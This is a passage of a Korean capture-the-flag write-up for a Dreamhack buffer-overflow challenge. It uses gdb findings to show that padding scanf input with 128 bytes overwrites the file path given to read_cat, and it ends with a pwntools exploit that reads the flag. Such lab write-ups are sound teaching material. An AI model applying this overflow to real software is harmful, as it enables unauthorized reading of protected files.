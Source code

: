 참고로 `0x7fffffffde50`는 `rsp`의 주소이고, `rbp`와 `144`만큼 차이가 난다.

<img width="210" alt="image" src="https://github.com/user-attachments/assets/27b281b7-8bc4-4bde-a352-8b07abf7ec00">

이제 중단점을 다시 `read_cat`으로 설정 후 이동해보자.

## `read_cat`

<img width="658" alt="image" src="https://github.com/user-attachments/assets/d35d7637-b7fc-4789-b733-953a39ab5517">

잘보면, `rdi`인 `0x7fffffffded0`에 `0x7461632f2e` 라는 값이 저장되어 있고, 이를 문자열로 해석하면 `./cat`임을 알 수 있다. 따라서 이 주소에 `BOF` 취약점을 통해 `./flag`나 `/home/bof/flag`를 전달해주면 익스플로잇에 성공할 것이다.

<img width="235" alt="image" src="https://github.com/user-attachments/assets/54296b04-a625-4cfb-9357-928884766d02">

그럼 이 주소를 `scanf`에서 입력 받는 주소인 `0x7fffffffde50`와 오프셋이 얼마나 차이나는지 비교해보면, 아래와 같이 `128`만큼 차이가 난다.

<img width="382" alt="image" src="https://github.com/user-attachments/assets/80a1794b-0247-4824-875d-25bd26af3724">

따라서, `b'a'`와 같은 임의의 값을 `128`번 써준 뒤에 `./flag`를 붙여주면 익스플로잇에 성공할 것이다.

참고로 오프셋 차이를 `scanf`에서는 첫번째 인자인 `rdi`에 대입할 `rax`에 `[rbp - 0x90]`을 대입해줬고, `read_cat`에서는 `rax`에 `[rbp - 0x10]`을 대입해줬기 때문에 `0x80 = 128`만큼 차이가 난다고 바로 생각해줘도 된다.

그리고 아래와 같이 `read_cat`에서 `ni`로 넘어가면 바로 파일을 읽어서 내용을 출력해준다.

<img width="272" alt="image" src="https://github.com/user-attachments/assets/5ebc197c-5be3-4a0c-a8d3-6e2c730bdf90">

## `printf`

<img width="432" alt="image" src="https://github.com/user-attachments/assets/988caa24-2f11-4c48-89b4-6cd1dd74e8cd">

마지막 `printf`에서는 그냥 입력 값을 출력해준다.

# Exploit

```
from pwn import *

p = remote('host3.dreamhack.games', 14559)

payload = b'a' * 128
payload += b'./flag'
# payload += b'/home/bof/flag' # 이것도 가능

p.sendlineafter(b'meow? ', payload)
p.interactive()
```







